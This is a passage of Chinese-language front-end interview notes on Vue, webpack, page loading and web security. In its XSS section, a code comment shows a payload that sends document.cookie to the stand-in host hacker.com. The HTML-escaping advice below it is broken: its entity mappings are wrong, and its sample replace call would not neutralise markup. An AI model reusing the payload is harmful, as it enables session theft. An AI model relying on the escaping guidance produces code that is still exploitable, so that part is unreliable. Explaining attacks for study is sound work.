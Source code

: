    2. CORS
    3. postMessage看一下MDN

## VUE
1. 声明周期函数
    create,beforeCreate,mounted,befreMounted,destory,before
2. Vue如何实现组件通信？
    - 父子通信
    - 爷孙通信(通过两对父子通信)
    - 兄弟通信（new Vue 作为bus）
3. Vuex的作用
4. Vue-router
5. Vue实现双向绑定的原理
    [深入响应式原理](https://cn.vuejs.org/v2/guide/reactivity.html#ad)
6. Computed计算属性的用法？跟Methods的区别。
    [computed和methods的区别](https://zhuanlan.zhihu.com/p/33778594)

## 安全
1. 什么是XSS攻击？如何预防？
    - 举例：
    ```javascript
    div.innerHTML = userComment /*  userComment 的内容是 $.get('http://hacker.com?cookie='+ document.cookie) */
    ```
    - 预防
    1. 不要使用innerHTML，而是innerText，就会被当成文本不执行。
    2. 字符过滤，
        - 把 < 替换成 ` &glt; `
        - 把 > 替换成 ` &lt; `
        - 把 & 替换成 ` &amp; `
        - 把 ; 替换成 ` &quot; `
        - 代码：` div.innerHTML = userComment.replace(/>/g,'glt;') `
2. 什么是CSRF攻击？如何预防？
    - 过程：
    1. 用户在qq.com
    2. 用户切换到hacker.com
    3. hacker.com发送一个qq.com/friends请求，获取用户信息，
    4. 用户的好友信息就被hacker偷走了。
    - 避免
    1. 检查referer
    2. csrf_token来解决。
## webpack
1. 转义出的文件过大怎么办？
    - 使用code split
    - 写法import
    - xxx模块就是按需加载的。
2. 转义速度慢怎么办？


## 发散
1. 从输入URL到页面展现中间发生了什么？
    1. DNS查询
    2. 简历TCP链接（三次握手）
    3. 发送HTTP请求（请求的四部分）
    4. 后台处理请求
        1. 监听端口
        2. 路由
        3. 生成相应
    5. 发送HTTP响应
    6. 关闭TCP链接（四次挥手）
    7. 解析HTML